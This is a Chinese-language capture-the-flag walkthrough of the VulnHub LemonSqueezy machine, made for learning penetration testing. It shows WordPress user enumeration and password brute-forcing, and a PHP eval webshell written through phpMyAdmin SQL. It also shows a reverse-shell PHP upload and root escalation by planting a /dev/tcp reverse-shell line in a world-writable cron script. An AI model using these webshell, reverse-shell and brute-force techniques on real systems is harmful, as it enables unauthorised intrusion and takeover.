




# Recon

这台机器仅开放80端口

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lemonsqueezy]
└─$ sudo nmap --min-rate 10000 -sT -sV -A -p- -n 192.168.2.139 -oN ports
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 10:04 EDT
Nmap scan report for 192.168.2.139
Host is up (0.00060s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 00:0C:29:D9:E9:D0 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.61 ms 192.168.2.139

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.14 seconds
```

## web

目录扫描,存在wordpress和phpmyadmin

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lemonsqueezy]
└─$ gobuster dir -u http://192.168.2.139/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.139/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.2.139/wordpress/]
/manual               (Status: 301) [Size: 315] [--> http://192.168.2.139/manual/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.2.139/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://192.168.2.139/phpmyadmin/]
```

wpscan枚举wordpress用户名,得到lemon和orange

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lemonsqueezy]
└─$ wpscan --url http://192.168.2.139/wordpress/ -e u
[i] User(s) Identified:
[+] lemon
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

使用rockyou爆破这两个用户,orange用户爆破很快得到了凭证`orange:ginger`

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lemonsqueezy]
└─$ wpscan --url http://192.168.2.139/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - orange / ginger
```

登录wordpress发现非管理员用户无法getshell,翻阅文章只有这一篇,其中有`n0t1n@w0rdl1st!`字符,猜测是密码



尝试登录lemon用户失败,尝试`orange:n0t1n@w0rdl1st!`登录phpmyadmin

把lemon用户的密码哈希改成和orange用户一样



# shell as www-data by wordpress

wordpress登录lemon用户,发现为管理员账户



尝试了几种常用的后台getshell方法都不成功,最后使用phpmyadmin执行sql语句写入一句话木马

`select '<?php eval($_POST[1]);?>' into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'`

但是发现无法完成反弹shell的操作,会http 500

通过phpmyadmin图形化在wordpress.wp_posts的post_content字段写入revershell.php内容

然后通过phpmyadmin执行命令

`select post_content from wp_posts where id=1 into dumpfile '/var/www/html/wordpress/wp-content/uploads/reverse.php'`

接着访问reverse.php完成反弹shell

```shell
py311) ┌──(kali㉿kali)-[~/vulnhub/lemonsqueezy]
└─$ pwncat-cs -lp 443       
[11:13:05] Welcome to pwncat 🐈! __main__.py:164
[11:13:10] received connection from 192.168.2.139:58402 bind.py:84
[11:13:11] 0.0.0.0:443: upgrading from /bin/dash to /bin/bash manager.py:957
192.168.2.139:58402: registered new host w/ db manager.py:957
(local) pwncat$(remote) www-data@lemonsqueezy:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# shell as root by crontab

例行检查,发现存在root运行的计划任务,目标脚本可写

```shell
(remote) www-data@lemonsqueezy:/etc/logrotate.d$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
#
(remote) www-data@lemonsqueezy:/etc/logrotate.d$ ls -l logrotate 
-rwxrwxrwx 1 root root 101 Apr 26  2020 logrotate
```

查看脚本内容是python执行了系统命令rm -rf /tmp/*,nano编辑文件替换命令为反弹shell指令

```shell
(remote) www-data@lemonsqueezy:/etc/logrotate.d$ cat logrotate 
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
(remote) www-data@lemonsqueezy:/etc/logrotate.d$ nano logrotate 
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

(remote) www-data@lemonsqueezy:/etc/logrotate.d$ cat logrotate 
#!/usr/bin/env python
import os
import sys
try:
    os.system('bash -i >/dev/tcp/192.168.2.100/443 0>&1')
except:
    sys.exit()
```

等待2分钟,撒花


